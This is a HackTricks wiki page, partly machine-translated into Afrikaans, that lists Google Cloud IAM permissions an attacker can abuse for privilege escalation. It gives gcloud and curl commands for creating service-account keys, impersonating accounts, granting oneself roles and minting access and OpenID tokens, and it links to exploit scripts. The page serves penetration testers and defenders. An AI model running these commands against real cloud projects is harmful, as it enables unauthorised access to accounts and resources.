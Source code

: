 # GCP - IAM Privesc

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## IAM

Vind meer inligting oor IAM in:

{% content-ref url="../gcp-services/gcp-iam-and-org-policies-enum.md" %}
[gcp-iam-and-org-policies-enum.md](../gcp-services/gcp-iam-and-org-policies-enum.md)
{% endcontent-ref %}

### `iam.roles.update` (`iam.roles.get`)

'n Aanvaller met die genoemde toestemmings sal in staat wees om 'n rol wat aan jou toegeken is, op te dateer en jou ekstra toestemmings te gee vir ander hulpbronne soos:
```bash
gcloud iam roles update <rol name> --project <project> --add-permissions <permission>
```
You can find a script to automate the **creation, exploit and cleaning of a vuln environment here** and a python script to abuse this privilege [**here**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.roles.update.py). For more information check the [**original research**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/).

### `iam.serviceAccounts.getAccessToken` (`iam.serviceAccounts.get`)

'n Aanvaller met die genoemde toestemmings sal in staat wees om **'n toegangstoken aan te vra wat aan 'n Diensrekening behoort**, so dit is moontlik om 'n toegangstoken van 'n Diensrekening met meer bevoegdhede as ons s'n aan te vra.
```bash
gcloud --impersonate-service-account="${victim}@${PROJECT_ID}.iam.gserviceaccount.com" \
auth print-access-token
```
You can find a script to automate the [**creation, exploit and cleaning of a vuln environment here**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/4-iam.serviceAccounts.getAccessToken.sh) and a python script to abuse this privilege [**here**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.getAccessToken.py). For more information check the [**original research**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/).

### `iam.serviceAccountKeys.create`

'n Aanvaller met die genoemde toestemmings sal in staat wees om **'n gebruiker-beheerde sleutel vir 'n Diensrekening te skep**, wat ons in staat sal stel om GCP as daardie Diensrekening te benader.
```bash
gcloud iam service-accounts keys create --iam-account <name> /tmp/key.json

gcloud auth activate-service-account --key-file=sa_cred.json
```
You kan 'n skrip vind om die [**skepping, benutting en skoonmaak van 'n kwesbare omgewing hier**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/3-iam.serviceAccountKeys.create.sh) te outomatiseer en 'n python-skrip om hierdie voorreg te misbruik [**hier**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccountKeys.create.py). Vir meer inligting, kyk na die [**oorspronklike navorsing**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/).

Let daarop dat **`iam.serviceAccountKeys.update` nie sal werk om die sleutel** van 'n SA te wysig nie, want om dit te doen is die toestemmings `iam.serviceAccountKeys.create` ook nodig.

### `iam.serviceAccounts.implicitDelegation`

As jy die **`iam.serviceAccounts.implicitDelegation`** toestemming op 'n Diensrekening het wat die **`iam.serviceAccounts.getAccessToken`** toestemming op 'n derde Diensrekening het, dan kan jy implicitDelegation gebruik om **'n token vir daardie derde Diensrekening te skep**. Hier is 'n diagram om te help verduidelik.

![](https://rhinosecuritylabs.com/wp-content/uploads/2020/04/image2-500x493.png)

Let daarop dat volgens die [**dokumentasie**](https://cloud.google.com/iam/docs/understanding-service-accounts), die delegasie van `gcloud` slegs werk om 'n token te genereer met die [**generateAccessToken()**](https://cloud.google.com/iam/credentials/reference/rest/v1/projects.serviceAccounts/generateAccessToken) metode. So hier is hoe om 'n token direk met die API te verkry:
```bash
curl -X POST \
'https://iamcredentials.googleapis.com/v1/projects/-/serviceAccounts/'"${TARGET_SERVICE_ACCOUNT}"':generateAccessToken' \
-H 'Content-Type: application/json' \
-H 'Authorization: Bearer '"$(gcloud auth print-access-token)" \
-d '{
"delegates": ["projects/-/serviceAccounts/'"${DELEGATED_SERVICE_ACCOUNT}"'"],
"scope": ["https://www.googleapis.com/auth/cloud-platform"]
}'
```
You can find a script to automate the [**skepping, uitbuiting en skoonmaak van 'n kwesbare omgewing hier**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/5-iam.serviceAccounts.implicitDelegation.sh) and a python script to abuse this privilege [**hier**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.implicitDelegation.py). For more information check the [** oorspronklike navorsing**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/).

### `iam.serviceAccounts.signBlob`

An attacker with the mentioned permissions will be able to **onderteken arbitrêre payloads in GCP**. So it'll be possible to **skep 'n ongetekende JWT van die SA en dit dan as 'n blob stuur om die JWT deur die SA wat ons teiken, te laat onderteken**. For more information [**lees dit**](https://medium.com/google-cloud/using-serviceaccountactor-iam-role-for-account-impersonation-on-google-cloud-platform-a9e7118480ed).

You can find a script to automate the [**skepping, uitbuiting en skoonmaak van 'n kwesbare omgewing hier**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/6-iam.serviceAccounts.signBlob.sh) and a python script to abuse this privilege [**hier**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.signBlob-accessToken.py) and [**hier**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.signBlob-gcsSignedUrl.py). For more information check the [** oorspronklike navorsing**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/).

### `iam.serviceAccounts.signJwt`

An attacker with the mentioned permissions will be able to **onderteken goed gevormde JSON web tokens (JWTs)**. The difference with the previous method is that **in plaas daarvan om google 'n blob wat 'n JWT bevat te laat onderteken, gebruik ons die signJWT metode wat reeds 'n JWT verwag**. This makes it easier to use but you can only sign JWT instead of any bytes.

You can find a script to automate the [**skepping, uitbuiting en skoonmaak van 'n kwesbare omgewing hier**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/7-iam.serviceAccounts.signJWT.sh) and a python script to abuse this privilege [**hier**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.signJWT.py). For more information check the [** oorspronklike navorsing**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/).

### `iam.serviceAccounts.setIamPolicy` <a href="#iam.serviceaccounts.setiampolicy" id="iam.serviceaccounts.setiampolicy"></a>

An attacker with the mentioned permissions will be able to **voeg IAM-beleid by diensrekeninge**. You can abuse it to **gee vir jouself** die toestemmings wat jy nodig het om die diensrekening na te volg. In the following example we are granting ourselves the `roles/iam.serviceAccountTokenCreator` role over the interesting SA:
```bash
gcloud iam service-accounts add-iam-policy-binding "${VICTIM_SA}@${PROJECT_ID}.iam.gserviceaccount.com" \
--member="user:username@domain.com" \
--role="roles/iam.serviceAccountTokenCreator"

# If you still have prblem grant yourself also this permission
gcloud iam service-accounts add-iam-policy-binding "${VICTIM_SA}@${PROJECT_ID}.iam.gserviceaccount.com" \ \
--member="user:username@domain.com" \
--role="roles/iam.serviceAccountUser"
```
You can find a script to automate the [**creation, exploit and cleaning of a vuln environment here**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/d-iam.serviceAccounts.setIamPolicy.sh)**.**

### `iam.serviceAccounts.actAs`

Die **iam.serviceAccounts.actAs toestemming** is soos die **iam:PassRole toestemming van AWS**. Dit is noodsaaklik vir die uitvoering van take, soos die inisieer van 'n Compute Engine-instantie, aangesien dit die vermoë bied om "as" 'n diensrekening op te tree, wat veilige toestemmingbestuur verseker. Sonder dit kan gebruikers onregmatige toegang verkry. Boonop behels die uitbuiting van die **iam.serviceAccounts.actAs** verskeie metodes, wat elkeen 'n stel toestemmings vereis, in teenstelling met ander metodes wat net een benodig.

#### Diensrekening impersonasie <a href="#service-account-impersonation" id="service-account-impersonation"></a>

Impersonasie van 'n diensrekening kan baie nuttig wees om **nuwe en beter voorregte te verkry**. Daar is drie maniere waarop jy [‘n ander diensrekening kan impersonate](https://cloud.google.com/iam/docs/understanding-service-accounts#impersonating\_a\_service\_account):

* Verifikasie **met RSA privaat sleutels** (hierbo behandel)
* Magtiging **met Cloud IAM beleide** (hier behandel)
* **Ontplooiing van werksgeleenthede op GCP dienste** (meer van toepassing op die kompromie van 'n gebruikersrekening)

### `iam.serviceAccounts.getOpenIdToken`

'n Aanvaller met die genoemde toestemmings sal in staat wees om 'n OpenID JWT te genereer. Hierdie word gebruik om identiteit te bevestig en dra nie noodwendig enige implisiete magtiging teen 'n hulpbron nie.

Volgens hierdie [**interessante pos**](https://medium.com/google-cloud/authenticating-using-google-openid-connect-tokens-e7675051213b), is dit nodig om die gehoor aan te dui (diens waar jy die token wil gebruik om te verifieer) en jy sal 'n JWT ontvang wat deur google onderteken is wat die diensrekening en die gehoor van die JWT aandui.

Jy kan 'n OpenIDToken genereer (as jy die toegang het) met:
```bash
# First activate the SA with iam.serviceAccounts.getOpenIdToken over the other SA
gcloud auth activate-service-account --key-file=/path/to/svc_account.json
# Then, generate token
gcloud auth print-identity-token "${ATTACK_SA}@${PROJECT_ID}.iam.gserviceaccount.com" --audiences=https://example.com
```
Dan kan jy dit net gebruik om toegang tot die diens te verkry met:
```bash
curl -v -H "Authorization: Bearer id_token" https://some-cloud-run-uc.a.run.app
```
Sommige dienste wat outentisering via hierdie tipe tokens ondersteun, is:

* [Google Cloud Run](https://cloud.google.com/run/)
* [Google Cloud Functions](https://cloud.google.com/functions/docs/)
* [Google Identity Aware Proxy](https://cloud.google.com/iap/docs/authentication-howto)
* [Google Cloud Endpoints](https://cloud.google.com/endpoints/docs/openapi/authenticating-users-google-id) (as jy Google OIDC gebruik)

Jy kan 'n voorbeeld vind van hoe om 'n OpenID-token namens 'n diensrekening te skep [**hier**](https://github.com/carlospolop-forks/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.getOpenIdToken.py).

## Verwysings

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsieplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PR's in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
